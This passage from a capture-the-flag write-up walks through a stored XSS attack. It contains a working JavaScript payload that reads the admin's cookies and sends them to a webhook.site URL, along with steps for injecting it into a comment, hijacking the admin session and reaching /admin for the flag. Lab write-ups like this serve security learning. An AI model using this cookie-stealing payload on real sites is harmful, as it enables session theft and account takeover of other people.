 This means that we can inject a malicious script and when the admin would review it the XSS would be triggered and we can get his cookie.

Get a link from webhook.site.

Then create an XSS payload as follows.

```javascript
<script>
  const cookie = document.cookie;
  const xhr = new XMLHttpRequest();
  xhr.open("GET", "https://webhook.site/a3c68f0c-<SNIP>/?cookie=" + encodeURIComponent(cookie), true);
  xhr.send();
</script>
```

Inject the payload in the comment and you'll get the admin cookie in a while.

!["Admin cookie in webhooks"](43.png "Admin cookie in webhooks")

Replace your cookie with admin's cookie and you'll be logged in as admin.

Go to `/admin` and you'll get the flag.

![Star wars flag](44.png "Star wars flag")

`Flag: flag{a538c88890d45a382e44dfd00296a99b}`
